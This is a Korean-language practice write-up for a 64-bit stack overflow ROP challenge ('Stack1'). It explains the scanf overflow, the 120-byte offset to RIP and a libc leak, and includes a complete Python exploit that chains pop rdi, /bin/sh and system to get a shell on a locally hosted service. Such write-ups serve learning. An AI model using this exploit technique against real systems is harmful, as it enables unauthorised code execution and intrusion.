 # Stack1
### 64bit Basic ROP
***출저를 알 수 없는 그냥 문제입니다.***

사실 tutorial을 풀게 된 이유중 하나가 이 문제 덕분에 풀었었습니다.

풀고 보면 쉬운 문제였는데 괜히 삽질을 했었어요 ㅠㅠ

```
이 문제를 원격으로 실행 시키고 싶으시다면,
socat TCP-LISTEN:9999,reuseaddr,fork,bind=127.0.0.1 EXEC:"./stack1"
위와 같이 socat을 이용하여 열어주시면 됩니다!
```

Stack1 을 실행 시키면, 아래 그림과 같이 입력을 받는 창이 나오고 입력을 한 뒤에는 libc system주소를 뿌려줍니다.

### Main
![Alt text](https://github.com/Funniest/System-study/blob/master/stack1/img/Main.PNG)

### Process
![Alt text](https://github.com/Funniest/System-study/blob/master/stack1/img/Process.PNG)

Process를 자세히 보면, scanf에서 제한없이 입력을 받아 오버플로우 취약점이 일어나게 됩니다.

sub rsp, 0x70

[rsp+var_70] -> buf는 0x70크기인 것을 알 수 있습니다.

총 크기를 정리하자면 0x70(112) + SFP(8) = 0x78(120)만큼 넣어주면 RIP를 컨트롤 할 수 있습니다.

일단 재가 생각한 시나리오는 아래와 같습니다.
```
1. 처음 아무 값이나 입력하여 info에서 주는 system libc주소를 받아옵니다.
2. system 가젯 및 필요한 가젯들의 offset을 구합니다.
3. 구한 가젯들을 이용하여 익스플로잇합니다.
```
***저는 여기서 system libc주소를 받을 생각을 안하고 한번에 페이로드 쓰려다 시간만 날렸내요 ㅠ_ㅠ***

이제 필요한 가젯들을 구해보면,
```
1. system libc
2. system libc offset
3. pop rdi
4. /bin/sh
```
***64bit에 대한 자세한 글은 tutorial 퓰아룰 작성하며 써놓았으니 참고해주세요!***
***로컬 libc를 보는법 이러던가 콜링 컨벤션 이라던가... 등등..***


***※interact를 꼭 해주셔야 합니다 ㅠ_ㅠ***
### 소스코드
Ubuntu 16 LTS 64 bit환경에서 테스팅 하였습니다.
```
from struct import *
from socket import *
import time
import telnetlib

p = lambda x: pack("<Q", x)
up = lambda x : unpack("<Q", x)[0]

input()

s = socket(AF_INET, SOCK_STREAM)
s.connect(('127.0.0.1', 9999))

bss = 0x601060
poprdi_offset = 0x21102
bin_sh_offset = 0x18c177
offset_system = 0x45390

#leak address
print s.recv(1024)
time.sleep(1)

s.send("1\n")
print s.recv(51)
libc_addr = int(s.recv(14), 16)
print s.recv(12)
libc_system = int(s.recv(14), 16)

print "system : " + str(hex(libc_system))
print "libc : " + str(hex(libc_addr))

libc_addr = libc_system - offset_system

poprdi = libc_addr + poprdi_offset
bin_sh = libc_addr + bin_sh_offset
print "poprdi : " + hex(poprdi)
print "/bin/sh : " + hex(bin_sh)

#testing
print "\n=== testing address ==="
print s.recv(1024)
time.sleep(1)
s.send('1\n')
print s.recv(1024)
time.sleep(1)

#exploit
print "\n=== payload ==="
payload = ''
payload += 'A' * 120
payload += p(poprdi)
payload += p(bin_sh)

payload += p(libc_system)

s.send(payload+"\n")
print s.recv(1024)

t = telnetlib.Telnet()
t.sock = s
t.interact()

s.close()
```
